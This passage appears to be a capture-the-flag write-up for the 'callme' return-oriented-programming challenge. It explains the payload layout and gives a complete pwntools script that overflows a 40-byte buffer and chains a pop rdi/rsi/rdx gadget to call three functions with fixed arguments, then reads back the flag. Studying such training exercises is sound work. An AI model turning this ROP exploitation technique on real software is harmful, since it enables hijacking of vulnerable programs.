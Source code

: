 get_args = pop_rdi_rsi_rdx_ret_address + arg0 + arg1 + arg2

* `payload = 40 bytes of junk + get_args + callme_one_address + get_args + callme_two_address + get_args + callme_three_address`

# SCRIPT 

```PYTHON
from pwn import *

elf = ELF('callme')                             #context.binary

p = process(elf.path)

#Prepare the payload
junk = b"A"*40                                  #creates the junk part of the payload
arg0 = p64(0xdeadbeefdeadbeef)                  
arg1 = p64(0xcafebabecafebabe)                  
arg2 = p64(0xd00df00dd00df00d)                  

callme_one = p64(0x400720)                      #address of callme_one
callme_two = p64(0x400740)                      #address of callme_two
callme_three = p64(0x4006f0)                    #address of callme_three  

pop_rdi_rsi_rdx_ret = p64(0x40093c)             #address of pop rdi ; pop rsi ; pop rdx ; ret

get_args = pop_rdi_rsi_rdx_ret + arg0 + arg1 + arg2

payload = junk + get_args + callme_one + get_args + callme_two + get_args + callme_three


# Send the payload
p.sendline(payload)                 #send the payload to the process

response = p.recvall()              #gets all messages in the process
print(re.search("(ROPE{.*?})",response.decode()))
```
